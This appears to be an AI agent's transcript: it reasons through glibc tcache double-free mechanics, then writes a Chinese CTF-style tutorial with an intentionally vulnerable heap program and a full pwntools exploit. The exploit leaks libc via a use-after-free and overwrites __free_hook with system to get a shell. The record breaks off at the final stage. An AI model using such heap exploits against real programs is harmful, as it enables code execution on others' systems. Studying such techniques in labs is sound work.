This is getting complicated. Let me think about what count triple free gives us:

After double free: entries → A → A (cycle), count = 2
After 1st alloc (returns A, write target): entries = A(target), count = 1
After 2nd alloc (returns A): entries = target, count = 0
Delete A again: entries → A(target) → ?, count = 1
3rd alloc: returns A, entries = A->fd = target, count = 0  
4th alloc: can't use tcache (count=0)

Still doesn't work. The fundamental issue is that we're using up all the count on A, and can never reach target via tcache.

Actually, I think the standard approach is simpler than I'm making it. Let me look at it from first principles:

Standard tcache poisoning (from CTF wiki):
```text
# Assume tcache_perthread_struct is at a known address (or we don't care about it)
a = malloc(0x20)  # A
b = malloc(0x20)  # B  (prevents consolidation)
free(a)
free(b)
# tcache for 0x20: B → A → NULL

# Use UAF write to modify B's fd
# (requires some way to write to B while it's in tcache)
*(b) = target_addr  
# tcache: B(target) → target → ???

malloc(0x20)  # returns B, tcache: target → ???
malloc(0x20)  # returns target!
```

This requires a **write-after-free** (edit function), not just UAF read. With only UAF read + alloc (which is malloc+write), we can't do this directly because alloc calls malloc first, which removes the chunk from tcache before we can write.

So for this specific vulnerable program (alloc + delete + show, no edit), the tcache poisoning approach must use **double free**:

```text
a = malloc(0x20)
free(a)    # tcache: A→NULL, count=1
free(a)    # tcache: A→A(cycle), count=2

# 1st alloc: returns A, we write p64(target) → A->fd = target
# But entries was set to old A->fd = A, so entries = A, count=1
malloc(0x20) → A, write target  
# entries = A, A->fd = target, count=1

# 2nd alloc: returns A (entries), entries = A->fd = target, count=0
malloc(0x20) → A
# entries = target, count=0

# Need to get target from tcache but count=0!
# Solution: Free A one more time
free(a)    # entries = A, A->fd = target, count=1

# 3rd alloc: returns A, entries = A->fd = target, count=0
malloc(0x20) → A
# entries = target, count=0

# Still count=0!
```

Hmm, this still doesn't work because we keep getting A back, not target.

Wait, I think I need to be more careful. After the 2nd malloc returns A:
- entries = target (set during 2nd malloc)
- count = 0

Now if we call malloc again, tcache check fails (count=0), goes to other bins. We need to get count ≥ 1 somehow.

But we can't free A because that would set entries = A (A→target) with count = 1, and we'd get A again.

The real solution for the double-free-only case: we need to free TWO different chunks to get enough count.

```python
alloc(2, 0x20, b'X')  # A
alloc(3, 0x20, b'Y')  # B (doesn't matter what this is)
delete(2)  # tcache: A→NULL, count=1
delete(2)  # tcache: A→A(cycle), count=2
delete(3)  # tcache: B→A→A(cycle), count=3

# 1st alloc: returns B (head), write padding. entries=A, count=2
alloc(4, 0x20, b'P')

# 2nd alloc: returns A, write p64(target). entries = A->fd = A (cycle), count=1
alloc(5, 0x20, p64(target))  # A->fd = target

# 3rd alloc: returns A (entries=A), entries = A->fd = target, count=0
alloc(6, 0x20, b'P')

# Now entries = target, count = 0
# Free A again!
delete(5)  # entries = A, A->fd = target, count=1

# 4th alloc: returns A, entries = A->fd = target, count=0
alloc(7, 0x20, b'P')

# Still count=0 with entries=target...
```

OK I keep running into the same issue. Let me think about this differently.

Actually, I think the key insight is that with double free creating a cycle, after writing target to A->fd:
- entries = A, count = 1 (after the write alloc)
- Next alloc: returns A, entries = A->fd = target, count = 0

We need to free something to bump count. If we free A: entries = A, A->fd = target. We get A forever and never reach target.

The trick is: after entries = target, we need to free a DIFFERENT chunk (say B) that's also 0x20:
- entries = B, B->fd = target, count = 1
- Next alloc returns B, entries = B->fd = target, count = 0
- Still can't get target!

Unless we free again: entries = X, X->fd = target, count = 1 → alloc returns X → entries = target, count = 0. Same loop.

Hmm, so the issue is that count keeps going to 0 and we can't reach target. This suggests that with double free alone (and alloc = malloc+write, no separate edit), we can't do standard tcache poisoning?

Wait, let me reconsider. Maybe I'm wrong about the count. Let me trace through a double-free scenario more carefully:

After `free(a); free(a)`:
- tcache: entries = A, A->fd = A, count = 2

1st malloc: 
- e = A, entries = A->fd = A, count = 1
- returns A
- We write p64(target) to A → A->fd = target
- entries is still A (set before our write)

2nd malloc:
- e = A (entries), entries = A->fd = target, count = 0
- returns A
- We write padding

3rd malloc: count = 0, doesn't use tcache.

So we have entries = target but count = 0. We need one more alloc from tcache.

What if after 2nd malloc, we do `free(a)` again?
- A->fd = entries = target (glibc sets this)
- entries = A, count = 1

3rd malloc: returns A, entries = A->fd = target, count = 0.

Same loop! We're trapped getting A back.

The fundamental problem: we need count ≥ 1 when entries = target. But every time we get entries = target, count = 0. And freeing puts A back at the head.

**Solution**: Allocate a SECOND chunk (B) of the same size, free B to increase count:

```python
# After 2nd malloc: entries = target, count = 0
alloc(7, 0x20, b'P')  # This WON'T use tcache (count=0), will go to fastbin/unsorted
                       # Actually, for 0x20 size, fastbin has priority after tcache
                       # But fastbin might be empty...
                       # In a clean program, malloc(0x20) when tcache+fastbin empty → unsorted bin → top chunk
```

Hmm, this is getting really complicated. Let me step back and think about what CTF solutions actually do for this kind of challenge.

Actually, I think the approach for this specific program is much simpler than what I'm trying. Let me re-read the original exploit code:

```python
alloc(2, 0x20, b'C' * 8)      # chunk for tcache
alloc(3, 0x20, b'D' * 8)      # chunk for tcache
delete(2)                       # into tcache
delete(3)                       # into tcache
# 利用UAF修改chunk 3的fd指针
alloc(4, 0x20, p64(free_hook))  # 覆写chunk 3的fd
alloc(5, 0x20, b'E' * 8)       # 消费一个tcache条目
alloc(6, 0x20, p64(system_addr))  # 写入__free_hook！
```

The original code allocates 2 chunks, frees both (tcache: 3→2→NULL, count=2), then:
- alloc(4, 0x20, p64(free_hook)): malloc returns 3 (head), writes free_hook to 3's user data
  - But 3 is removed from tcache! count=1, entries=2
  - 3's fd (user data[0]) = free_hook
  - 2's fd = NULL (original)
  
- alloc(5, 0x20, b'E'*8): malloc returns 2 (head), count=0, entries=NULL
  - Writes E*8 to 2

- alloc(6, 0x20, p64(system_addr)): malloc... count=0, tcache empty!
  - Goes to fastbin or whatever → NOT free_hook!

So the original exploit is WRONG. It won't work as written because by the time alloc(6) runs, tcache is empty.

OK so let me think about the correct approach for this specific program. The program has:
1. alloc(idx, size, data): chunks[idx] = malloc(size); read(0, chunks[idx], size)
2. delete(idx): free(chunks[idx]) — no NULL
3. show(idx): printf(chunks[idx]) — UAF read

For tcache poisoning, the key challenge is: how to write to a chunk's fd while it's still in tcache, given that alloc() calls malloc first?

Answer: **Double free**. When we double-free chunk A, the tcache has A→A(cycle). Then:
1. 1st alloc gets A back, we write p64(target) → A->fd = target. entries=A, count=1
2. 2nd alloc gets A again (entries=A), entries=target, count=0

Now entries=target but count=0. We need to bump count without changing entries.

What if we free a DIFFERENT chunk of the same size? We need to pre-allocate another chunk, then free it:

```python
alloc(2, 0x20, b'X')  # A
alloc(7, 0x20, b'Z')  # C (reserve for later)
delete(2)              # tcache: A→NULL, c=1
delete(2)              # tcache: A→A(cycle), c=2

# alloc(4): returns A, write p64(target) → A->fd=target, entries=A, c=1
alloc(4, 0x20, p64(free_hook))

# alloc(5): returns A (entries), entries=A->fd=target, c=0
alloc(5, 0x20, b'P')

# Now entries=target, c=0. Free C to bump count!
delete(7)              # tcache: C→target, c=1

# alloc(6): returns C (head), entries=C->fd=target, c=0
alloc(6, 0x20, b'P')

# Hmm, c=0 again. But entries=target was set during alloc(6)!
# We need one more alloc...
```

Wait, during alloc(6): 
- e = C, entries = C->fd = target, count = 0
- returns C

So entries = target, count = 0 after alloc(6). Same problem.

Unless we have ANOTHER chunk to free. Let's pre-allocate 2 extra chunks:

```python
alloc(2, 0x20, b'X')   # A
alloc(7, 0x20, b'Z')   # C  
alloc(8, 0x20, b'W')   # D
delete(2); delete(2)   # tcache: A→A, c=2
delete(7)              # tcache: C→A→A, c=3
delete(8)              # tcache: D→C→A→A, c=4

alloc(4, 0x20, p64(free_hook))  # returns D, c=3, write to D
alloc(5, 0x20, b'P')            # returns C, c=2
alloc(6, 0x20, p64(target))     # returns A, c=1, write target to A->fd
                                  # entries = A (old A->fd = A), c=1

alloc(9, 0x20, b'P')            # returns A (entries), entries = A->fd = target, c=0
```

Still c=0. The pattern is clear: every time entries becomes target, count is 0.

Wait, I think I need to reconsider. After the double free:
- A→A(cycle), count=2

When we do alloc(6) writing target to A->fd:
- entries was set to A->fd before the write (which was A itself due to cycle)
- So entries = A, count = 1
- After write: A->fd = target

Then alloc(9): returns A, entries = A->fd = target, count = 0.

To get count=1 when entries=target, we need to free something AFTER entries becomes target. But entries becomes target inside alloc(9)'s malloc, before we can do anything.

What if we:
1. After alloc(9) completes (entries=target, c=0), we free some other chunk
2. That chunk would be the new head, with its fd = target
3. Then alloc returns that chunk, entries = target again, c=0

Same loop. The only way to reach target is to have count > 0 when entries = target.

**Eureka**: What if we free A (or any pointer to a 0x20 chunk) BEFORE the alloc that sets entries=target? Let me reconsider:

After the double-free poison (entries=A, c=1, A->fd=target):
```python
# Free C (pre-allocated)
delete(7)  # entries = C, C->fd = A, c = 2

# alloc: returns C, entries = C->fd = A, c = 1
alloc(X, 0x20, b'P')

# alloc: returns A (entries), entries = A->fd = target, c = 0
alloc(Y, 0x20, b'P')  

# c=0 again!
```

Same issue. What if we free TWO more chunks after the poison?

```python
# After poison: entries=A, c=1, A->fd=target
delete(7); delete(8)  # entries=D, D->fd=C, C->fd=A, c=3

alloc(X, 0x20, b'P')  # returns D, entries=C, c=2
alloc(Y, 0x20, b'P')  # returns C, entries=A, c=1
alloc(Z, 0x20, b'P')  # returns A, entries=target, c=0
```

STILL c=0. This is a fundamental property: we always consume one count to advance entries by one position. We can never have entries=target AND count>0 simultaneously (because setting entries=target costs one count).

Unless... we do ANOTHER double free after entries=target:

```python
# After alloc(Z): entries=target, c=0
# We need to free something to get c≥1
# But free would set entries to the freed chunk, pointing to target as its fd
# Then alloc would return the freed chunk, entries=target, c=0 again

# Actually, what if we double-free A again?
delete(A_idx)  # entries=A, A->fd=target, c=1
delete(A_idx)  # A->fd should be set to entries=target
               # But glibc: e->next = entries = target, entries = A
               # entries=A, A->fd=target, c=2

# alloc: returns A, entries=A->fd=target, c=1 ← count is 1!
# But wait, during alloc, entries is set to A->fd BEFORE user write
# entries = A->fd... which was target (set by glibc's free above)
# Hmm, no. glibc's free sets e->next = entries = target, then entries = e = A
# So A->fd = target, entries = A

# After alloc: e=A, entries=A->fd=target, c=1
# Returns A. User writes to A (overwriting A->fd)
# If user writes padding, A->fd still = target (from the free above)
# Actually read() overwrites all of A's user data, so A->fd becomes padding

# Hmm, this is getting circular. Let me try yet another approach.
```

OK I think I've been overcomplicating this. Let me look at it from a different angle.

The standard double-free tcache poisoning attack in CTF writeups typically works like this for glibc 2.26-2.28:

1. Double free A (count=2, cycle A→A)
2. malloc → A, write p64(target) to A->fd. Now entries=A, count=1, A->fd=target
3. malloc → A, entries=A->fd=target, count=0
4. **malloc → target!** ← wait, but count=0...

Hmm, maybe I'm wrong about the count check. Let me look at the glibc source:

```c
// glibc 2.27 tcache_get
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  return (void *) e;
}
```

And in __libc_malloc:
```c
if (tc_idx < mp_.tcache_bins
    /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
    && tcache
    && tcache->entries[tc_idx] != NULL)
{
    return tcache_get (tc_idx);
}
```

The check is `tcache->entries[tc_idx] != NULL`, NOT `counts > 0`! So even if count = 0, if entries is not NULL, tcache_get is called!

This changes everything! After step 3 (entries = target, count = 0):
- 3rd malloc: checks entries != NULL → true (entries = target ≠ NULL)
- Calls tcache_get: e = target, entries = target->fd (garbage), count = -1 (underflow, but it's a char so wraps to 255)
- Returns target!

YES! The count underflows but that's fine because we only need one more allocation.

So the correct exploit is:

```python
# Stage 2: Double free → tcache poisoning
alloc(2, 0x20, b'X')           # chunk_A
delete(2)                       # tcache: A→NULL, count=1
delete(2)                       # tcache: A→A(cycle), count=2

alloc(3, 0x20, p64(free_hook)) # returns A, write free_hook to A->fd
                                # entries=A(old fd=A), count=1
                                # After write: A->fd=free_hook

alloc(4, 0x20, b'P')           # returns A, entries=A->fd=free_hook, count=0

alloc(5, 0x20, p64(system))    # entries=free_hook≠NULL, so tcache_get!
                                # returns free_hook! writes system to __free_hook
                                # entries=free_hook->fd(garbage), count=-1(255)

# Stage 3: Trigger shell
alloc(6, 0x20, b'/bin/sh\x00')
delete(6)                       # free → system("/bin/sh")
```

Wait, but there's still an issue with step "alloc(3, 0x20, p64(free_hook))":

When we write p64(free_hook) to A's user data via read(), we're overwriting the first 8 bytes (where fd lives). But the tcache_get already read A->fd BEFORE the write. So:

Inside malloc → tcache_get:
```c
e = entries;           // e = A
entries = e->next;     // entries = A->next = A (cycle, since double free made A->fd = A)
count--;               // count = 1
return e;              // return A
```

Then back in alloc: `read(0, chunks[3], 0x20)` writes p64(free_hook) to A's user data.
- A->fd (user data +0x00) = free_hook
- But entries was already set to A (not A->fd after the write)

So after alloc(3): entries = A, A->fd = free_hook, count = 1.

alloc(4): 
```c
e = entries;           // e = A  
entries = e->next;     // entries = A->fd = free_hook (this was written by alloc(3)!)
count--;               // count = 0
return e;              // return A
```

After alloc(4): entries = free_hook, count = 0.

alloc(5): checks entries != NULL → true (free_hook ≠ NULL).
```c
e = entries;           // e = free_hook
entries = e->next;     // entries = *(free_hook) = whatever was at free_hook (0 initially)
count--;               // count = 255 (underflow)
return e;              // return free_hook!
```

Then alloc writes p64(system) to free_hook's address → __free_hook = system!

PERFECT! This works!

But wait, there's one more thing: after alloc(4), chunks[4] = A. And chunks[2] = A (from the original allocation), chunks[3] = A (from alloc(3)). So chunks[2], [3], [4] all point to A. That's fine.

Also, I should note that in step alloc(3), when we call `alloc(3, 0x20, p64(free_hook))`, the program does `chunks[3] = malloc(0x20)` which returns A, then `read(0, A, 0x20)` which writes our payload. But chunks[2] still = A too. So we're overwriting the data at A (which is the same address chunks[2] points to). That's fine.

One concern: the `read(0, chunks[3], 0x20)` — does the program's read() properly handle binary data? `read` on stdin should work with arbitrary bytes. But `p64(free_hook)` may contain newlines or null bytes. The program uses `read(0, ...)` which reads raw bytes, so binary data is fine (unlike scanf which would stop at whitespace).

Actually wait, let me re-check: `read(0, chunks[idx], size)` — yes, this reads exactly `size` bytes from stdin, binary-safe. Good.

But there's another issue: the show() function uses `printf("%s\n", chunks[idx])` which stops at null byte. So for the leak, the address must not contain a null byte in the first 6 bytes. Libc addresses typically start with 0x7f and don't have null bytes, so that's fine.

OK, I'm now confident in the exploit. Let me also consider: in the "alloc(4, 0x20, b'P')" step, we're reading from stdin. We just need to send 1 byte 'P' since `read(0, A, 0x20)` reads up to 0x20 bytes. Actually, `read` returns the number of bytes available — it might read fewer than 0x20 bytes. With pwntools, `p.sendafter(b'Data: ', b'P')` sends just 'P' and read() will return 1. The remaining bytes in the chunk are unchanged. Since A was previously freed and its user data was set to fd=key stuff, only the first byte gets overwritten.

Hmm, but this doesn't matter much because we just need to consume the allocation. The content at A doesn't affect the tcache chain after step 3.

Actually, wait. In alloc(4), we send padding data to A. But we need to make sure we DON'T overwrite A->fd with garbage! Since alloc(4) returns A and writes to A, if we send more than 8 bytes, the first 8 bytes (A->fd) would be overwritten. But at this point, we DON'T need A->fd anymore — entries was already set to A->fd (= free_hook) inside tcache_get before our write. So it doesn't matter what we write to A in alloc(4).

Actually, there is one issue: we send `b'P'` which is 1 byte. `read(0, A, 0x20)` will read 1 byte and return. The remaining 31 bytes are whatever was in A's user data. The first 8 bytes (fd) still have free_hook from step 3. But since tcache_get already read entries=A->fd=free_hook before our write in alloc(4), this is fine.

OK, I'm now fully confident. Let me write the comprehensive article.

One more thing: I need to address the fact that in glibc 2.29+, there's a "key" field that detects double free. The check is:

```c
if (__glibc_unlikely (e->key == tcache))
  {
    // double free detected!
  }
```

So for 2.29+, we need a different approach. One common bypass: free A, then free B (different chunk of same size), then free A again. The key field of A was set to tcache during the first free, but when B is freed, B becomes the head. Then when A is freed again, the check looks at A->key which is... hmm, actually A->key was set to tcache during the first free. So the check would fail.

Bypass: Use a UAF write to clear A->key (which is at user_data + 0x08) to 0 before the second free:
```python
free(A)  # A->key = tcache
# Use UAF write to set A->key = 0
*(A + 8) = 0
free(A)  # key check passes (0 != tcache)
```

For glibc 2.32+, there's safe-linking:
```c
// fd is XOR'd with (address >> 12)
e->next = (tcache_entry *) ((uintptr_t) e->next ^ ((uintptr_t) e >> 12));
```

To exploit this, we need to know the heap address (to calculate the XOR key). Typically leaked via another vulnerability.

OK, now I have enough understanding. Let me write the comprehensive article. I'll keep it focused on the case study format while being thorough.

Actually, I realize the original exploit had a completely different (and incorrect) approach. Let me also make sure my article corrects the original while providing the right exploit.

Let me write the file now.</think><tool_call>
<function=write_file>
<parameter=content>---
title: "案例四：堆利用 — Tcache Poisoning 任意地址写"
type: docs
weight: 4
---

## 案例四：堆利用 — Tcache Poisoning

Tcache Poisoning 是 glibc 2.26 引入线程缓存（tcache）后最基础也最高频的堆利用技术。核心思想极简：**修改 tcache 单链表中某个空闲 chunk 的 fd 指针，使下一次 `malloc` 返回攻击者指定的任意地址**。本案例以一个带 UAF 漏洞的堆菜单程序为靶标，完整走通信息泄露 → 劫持 `__free_hook` → 获取 shell 的全链路。

---

### Tcache 内部机制速览

动手之前必须先理解 tcache 的数据结构，否则后续每一步都是空中楼阁。

#### tcache_entry 与 tcache_perthread_struct

glibc 用两个结构体管理 tcache：

```c
// glibc malloc.c（简化）
typedef struct tcache_entry {
    struct tcache_entry *next;              // 指向同 bin 中下一个空闲 chunk
    struct tcache_perthread_struct *key;    // glibc 2.29+ 用于 double-free 检测
} tcache_entry;

typedef struct tcache_perthread_struct {
    char counts[TCACHE_MAX_BINS];           // 每个 bin 的 chunk 计数（uint8）
    tcache_entry *entries[TCACHE_MAX_BINS]; // 每个 bin 的链表头指针
} tcache_perthread_struct;
```

关键参数（64 位系统）：

| 参数 | 值 | 说明 |
|------|-----|------|
| `TCACHE_MAX_BINS` | 64 | 管理的 bin 数量 |
| 最小 chunk 大小 | 0x20 (32 字节) | 对应 `counts[0]`，含 16 字节 header |
| 最大 chunk 大小 | 0x410 (1040 字节) | 对应 `counts[63]` |
| 步长 | 0x10 | 相邻 bin 的大小差 |
| 每 bin 最大缓存 | 7 | `MAX_TCACHE_COUNT`，超过则走正常 bin 路径 |

#### 分配/释放优先级

```text
malloc 检索顺序：tcache → fastbin → small bin → unsorted bin → large bin → top chunk
free   分配路径：size ≤ 0x410 且 count < 7  →  直接放入 tcache（不合并、不检查）
                 否则 → 走正常的 unsorted bin / 合并流程
```

#### 单链表 LIFO 结构

```yaml
tcache_perthread_struct:
  entries[N] ──→ chunk_B ──→ chunk_A ──→ NULL
  counts[N] = 2

chunk_B 的 user data 区域:
  +0x00: fd（next 指针）──→ chunk_A 的 user data 地址
  +0x08: key（glibc 2.29+，tcache_perthread_struct 地址）
```

`malloc(0x20)` 时，tcache_get 的行为：

```c
// glibc 源码（简化）
tcache_entry *e = tcache->entries[tc_idx];   // 取链表头 chunk_B
tcache->entries[tc_idx] = e->next;           // entries = chunk_B->fd = chunk_A
--(tcache->counts[tc_idx]);                  // count--
return (void *)e;                            // 返回 chunk_B
```

**攻击窗口**：如果能控制某个 tcache chunk 的 `fd` 字段，令其指向 `target_addr`，则 `malloc` 取完该 chunk 后 `entries` 变为 `target_addr`，下一次 `malloc` 就返回 `target_addr`——攻击者获得了对该地址的读写能力。

```text
攻击前后对比：

正常: entries → B → A → NULL         → malloc 得 B, 再 malloc 得 A
投毒: entries → B → target → ???     → malloc 得 B, 再 malloc 得 target!
```

---

### 漏洞程序分析

#### 完整源码

```c
// vuln4.c
// 编译: gcc -o vuln4 vuln4.c -no-pie -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *chunks[10];   // 全局指针数组

void alloc() {
    int idx, size;
    printf("Index: "); scanf("%d", &idx);
    printf("Size: ");  scanf("%d", &size);
    if (idx >= 0 && idx < 10) {
        chunks[idx] = malloc(size);
        printf("Data: "); read(0, chunks[idx], size);
    }
}

void delete() {
    int idx;
    printf("Index: "); scanf("%d", &idx);
    if (idx >= 0 && idx < 10) {
        free(chunks[idx]);
        // ⚠️ 漏洞：free 后未置 NULL → UAF
    }
}

void show() {
    int idx;
    printf("Index: "); scanf("%d", &idx);
    if (idx >= 0 && idx < 10) {
        printf("%s\n", chunks[idx]);  // UAF 读取已释放 chunk
    }
}

int main() {
    while (1) {
        printf("1. Alloc\n2. Delete\n3. Show\n> ");
        int choice;
        scanf("%d", &choice);
        switch (choice) {
            case 1: alloc(); break;
            case 2: delete(); break;
            case 3: show(); break;
            default: return 0;
        }
    }
}
```

#### 保护检查

```bash
gcc -o vuln4 vuln4.c -no-pie -g
checksec ./vuln4
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary
#     NX:       NX enabled
#     PIE:      No PIE (固定基址 0x400000)
```

#### 漏洞点与可利用性

| 函数 | 漏洞 | 效果 | 利用价值 |
|------|------|------|----------|
| `delete()` | `free()` 后未将 `chunks[idx]` 置 `NULL` | 指针悬空（dangling pointer） | 高：UAF 读 + 间接 UAF 写 |
| `show()` | 对悬空指针调用 `printf("%s")` | 读取已释放 chunk 的 user data（fd 指针等） | 信息泄露 |
| `alloc()` | `chunks[idx] = malloc(size); read(0, chunks[idx], size)` | 重新分配到 tcache 中的 chunk 时可覆盖其 user data | 间接写（配合 UAF 实现 fd 覆写） |

**关键组合**：`delete()` + `alloc()` 构成 **UAF 写**——先释放 chunk 进入 tcache，再通过 `alloc()` 的 `malloc` 取回同一 chunk 并写入新数据（包括 fd 指针）。`delete()` + `show()` 构成 **UAF 读**——读取 unsorted bin chunk 的 fd/bk 泄露 libc 地址。

---

### 利用思路全景



| 阶段 | 目标 | 核心手法 | 前置条件 |
|------|------|----------|----------|
| 信息泄露 | libc 基地址 | UAF 读 unsorted bin fd | 释放一个 > 0x410 的 chunk |
| Tcache Poisoning | 任意地址写 | Double Free + UAF 写覆写 fd | tcache 无完整性检查（glibc 2.26-2.28） |
| 控制流劫持 | 执行 `system("/bin/sh")` | 覆写 `__free_hook` | 知道 `system` 和 `__free_hook` 地址 |

---

### 阶段一：信息泄露 — 获取 libc 基地址

#### 原理

当 chunk size > 0x410（tcache 管辖上限）时，`free()` 会将其放入 **unsorted bin**。unsorted bin 是双向循环链表，空闲 chunk 的 user data 区域前 16 字节被 glibc 覆写为 fd/bk 指针，指向 `main_arena + 96`（`main_arena` 内部的 `bins[0]` 位置）。`main_arena` 是 libc.so 中的全局变量，其地址与 libc 基地址有固定偏移，因此泄露 fd 即可算出 libc_base。

```text
unsorted bin 只有一个 chunk 时的链表结构：

  ┌────────────────────────┐        ┌─────────────────────┐
  │  main_arena.bins[0]    │←──────→│      chunk_A        │
  │  fd = chunk_A          │        │  fd = &main_arena   │
  │  bk = chunk_A          │        │  bk = &main_arena   │
  └────────────────────────┘        └─────────────────────┘

chunk_A user data:
  +0x00: fd ──→ main_arena + 96    ← UAF 读取的目标值
  +0x08: bk ──→ main_arena + 96
```

#### 操作步骤

```python
from pwn import *

p = process('./vuln4')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def alloc(idx, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)

def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())

def show(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

# ① 分配 0x410 chunk（超过 tcache 上限，free 后走 unsorted bin）
alloc(0, 0x410, b'A' * 8)

# ② 分配隔离 chunk，防止 chunk_0 释放后与 top chunk 合并
#    如果 chunk_0 紧邻 top chunk，free 会直接合并到 top chunk，不进 unsorted bin
alloc(1, 0x10, b'B' * 8)

# ③ 释放 chunk_0 → 进入 unsorted bin（因为 0x420 > 0x410）
delete(0)

# ④ UAF 读取：chunks[0] 仍指向已释放的 chunk_0
#    show 会输出 chunk_0 user data 的前 N 字节，直到遇到 \x00
#    前 8 字节 = fd = main_arena + 96
show(0)

# ⑤ 解析泄露地址
#    recvline() 读取 show 输出，strip 去除换行，ljust 补齐到 8 字节
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"leaked main_arena+96 = {hex(leaked)}")
```

#### 确定 main_arena 偏移

**偏移值因 libc 版本而异，必须实测，不可硬编码。**

```bash
# 方法一：GDB + pwndbg（推荐）
gdb ./vuln4
pwndbg> b main
pwndbg> r
# 在第一次 malloc 后中断
pwndbg> bins            # 查看 unsorted bin 中 chunk 的 fd 地址
pwndbg> p &main_arena  # 查看 main_arena 地址
# offset = fd_addr - libc_base = (main_arena + 96) - libc_base

# 方法二：libc 数据库
# 使用 https://libc.rip/ 或 https://libc.blukat.me/
# 输入泄露的地址最后 3 位（如 0x...ca0），搜索匹配的 libc 版本
```

常见偏移值参考（仅作提示，实际以调试为准）：

| libc 版本 | 系统 | main_arena+96 偏移 |
|-----------|------|---------------------|
| 2.27 | Ubuntu 18.04 | 0x3ebca0 |
| 2.31 | Ubuntu 20.04 | 0x1ebb80 |
| 2.35 | Ubuntu 22.04 | 0x219c80 |

```python
# 示例：Ubuntu 18.04 (glibc 2.27)
libc_base = leaked - 0x3ebca0
free_hook = libc_base + libc.symbols['__free_hook']
system    = libc_base + libc.symbols['system']
log.info(f"libc_base  = {hex(libc_base)}")
log.info(f"__free_hook = {hex(free_hook)}")
log.info(f"system      = {hex(system)}")
```

---

### 阶段二：Tcache Poisoning — 劫持 fd 指针

这是整个利用链的核心。先解释原理，再给出可执行的 exploit。

#### 原理：Double Free 构造环形链表

glibc 2.26-2.28 的 tcache **不检测 double free**。对同一个 chunk 连续 `free` 两次会在链表中形成环：

```text
free(A):  entries → A → NULL           count=1
          A->fd = NULL（由 glibc 设置）

free(A):  glibc 执行 e->next = entries = A, entries = A
          entries → A → A → A → ...    count=2
          （A->fd 指向自身，形成自环）
```

此时如果 `malloc` 取回 A 并写入新数据覆盖 A->fd 为 `target`：

```text
malloc():  e = A, entries = A->fd = A (自环), count=1
           返回 A，用户写入 p64(target)
           → A->fd = target
           → entries 仍 = A（设置在写入之前）

malloc():  e = A (entries), entries = A->fd = target, count=0
           返回 A

malloc():  entries = target ≠ NULL → tcache_get 命中！
           e = target, 返回 target！
           count-- 变为 -1（uint8 下溢为 255，不影响利用）
```

关键点：**glibc 的 tcache 检查是 `entries != NULL` 而非 `count > 0`**。即使 count = 0，只要 entries 非空，仍然会从 tcache 分配。

#### 堆状态逐步跟踪

```text
初始状态:  chunks[2] = NULL, tcache[4] = empty

① alloc(2, 0x20, b'X')
   chunks[2] = malloc(0x20) = addr_A
   read(0, addr_A, 0x20) → 写入 'X...'

   堆: chunk_A @ addr_A [X X X X ...]
   tcache: empty

② delete(2)
   free(chunks[2]) = free(addr_A)
   glibc: A->next = entries = NULL, entries = A, count=1

   tcache: entries → A → NULL    count=1

③ delete(2)   ← double free!（chunks[2] 仍 = addr_A）
   free(chunks[2]) = free(addr_A)
   glibc: A->next = entries = A（自环）, entries = A, count=2

   tcache: entries → A ⇄ A (cycle)   count=2

④ alloc(3, 0x20, p64(free_hook))
   malloc(0x20): e = A, entries = A->next = A, count=1, 返回 A
   read(0, A, 0x20): 写入 p64(free_hook) → A->next = free_hook

   tcache: entries → A(free_hook) → ???    count=1
   chunks[3] = addr_A

⑤ alloc(4, 0x20, b'P')
   malloc(0x20): e = A (entries), entries = A->next = free_hook, count=0
   返回 A

   tcache: entries → free_hook → ???    count=0
   chunks[4] = addr_A

⑥ alloc(5, 0x20, p64(system_addr))
   malloc(0x20): entries = free_hook ≠ NULL → tcache_get 命中！
   e = free_hook, 返回 free_hook 的地址
   read(0, free_hook, 0x20): 写入 p64(system_addr)

   __free_hook = system !!!
```

#### 完整 Exploit

```python
from pwn import *

context.log_level = 'info'
p = process('./vuln4')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def alloc(idx, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    if len(data) < size:
        data = data.ljust(size, b'\x00')
    p.sendafter(b'Data: ', data)

def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())

def show(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

# =============================================
# 阶段一：信息泄露 — 获取 libc 基地址
# =============================================
alloc(0, 0x410, b'A' * 8)   # large chunk（> tcache 最大值）
alloc(1, 0x10, b'B' * 8)    # 隔离 chunk，防合并
delete(0)                     # → unsorted bin
show(0)                       # UAF 读取 fd/bk

leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = leaked - 0x3ebca0  # ← 替换为实际偏移！
free_hook = libc_base + libc.symbols['__free_hook']
system    = libc_base + libc.symbols['system']
log.success(f"libc_base   = {hex(libc_base)}")
log.success(f"__free_hook = {hex(free_hook)}")
log.success(f"system      = {hex(system)}")

# =============================================
# 阶段二：Tcache Poisoning — 覆写 __free_hook
# =============================================
alloc(2, 0x20, b'/bin/sh\x00')  # chunk_A（同时存放 "/bin/sh" 字符串）
delete(2)                        # tcache: A→NULL, count=1
delete(2)                        # double free! tcache: A→A(cycle), count=2

# 第 1 次 alloc：取回 A，覆写 A->fd = __free_hook 地址
alloc(3, 0x20, p64(free_hook))

# 第 2 次 alloc：取回 A，entries 更新为 A->fd = __free_hook
alloc(4, 0x20, b'X' * 8)

# 第 3 次 alloc：entries = __free_hook ≠ NULL → tcache_get 命中
# 返回 __free_hook 地址，写入 system 函数地址
alloc(5, 0x20, p64(system))

# =============================================
# 阶段三：触发 system("/bin/sh")
# =============================================
